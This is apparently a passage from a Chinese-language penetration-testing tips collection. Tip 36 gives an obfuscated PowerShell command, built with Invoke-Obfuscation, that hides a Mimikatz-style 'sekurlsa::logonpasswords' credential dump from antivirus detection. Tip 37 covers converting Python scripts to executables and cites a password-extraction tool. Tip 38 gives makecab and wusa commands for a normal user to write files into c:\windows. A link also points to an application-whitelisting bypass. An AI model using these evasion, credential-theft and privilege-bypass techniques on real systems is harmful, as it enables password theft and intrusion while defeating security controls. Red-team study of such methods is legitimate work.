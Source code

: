 [《Study Notes of using BGInfo to bypass Application Whitelisting》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-of-using-BGInfo-to-bypass-Application-Whitelisting/)

---

### Tips 36 如果powershell脚本被查杀，可以尝试使用Invoke-Obfuscation进行混淆

https://github.com/danielbohannon/Invoke-Obfuscation

eg.

设置要混淆的代码：

```
set scriptblock " Invoke-111111 -Command "log privilege::debug sekurlsa::logonpasswords exit" "
```

输入`encoding`

输入`1`，指定编码为ascii

得到混淆后的代码：

```
" $(SEt-iTem  'VARIaBle:OFS' '' ) "+ [StRinG](( 73,110 , 118 ,111, 107, 101, 45, 49, 49 ,49 ,49 ,49 , 49, 32 , 45 , 67, 111, 109 , 109, 97 , 110 , 100 , 32,34,108, 111, 103 ,32, 112 ,114 , 105,118,105,108, 101, 103 ,101, 58 , 58 , 100 , 101 , 98, 117 ,103,32 , 115,101,107 ,117,114 , 108,115, 97 ,58 , 58, 108 ,111 ,103,111,110, 112, 97, 115 ,115,119, 111, 114, 100, 115, 32, 101, 120,105,116 ,34 )|FOReacH-objeCT{( [ChAR][iNT] $_) } ) +"$( Set-variAbLE  'oFS'  ' ' ) "|. ( $env:PUbLic[13]+$eNv:PuBlIc[5]+'x')
```

---

### Tips 37 python脚本转exe

常见的两种方法：

- 使用py2exe
- 使用PyInstaller

使用方法和常见bug解决方法可参照参考链接

参考：

[《本地密码查看工具LaZagne中的自定义脚本开发》](https://3gstudent.github.io/3gstudent.github.io/%E6%9C%AC%E5%9C%B0%E5%AF%86%E7%A0%81%E6%9F%A5%E7%9C%8B%E5%B7%A5%E5%85%B7LaZagne%E4%B8%AD%E7%9A%84%E8%87%AA%E5%AE%9A%E4%B9%89%E8%84%9A%E6%9C%AC%E5%BC%80%E5%8F%91/)

---

### Tips 38 普通用户权限向管理员权限的路径下写文件

eg.

以普通用户权限向`c:\windows`文件夹下释放文件

```
makecab c:\test\test.exe %TMP%\1.tmp
wusa %TMP%\1.tmp /extract:"c:\windows" /quiet
```
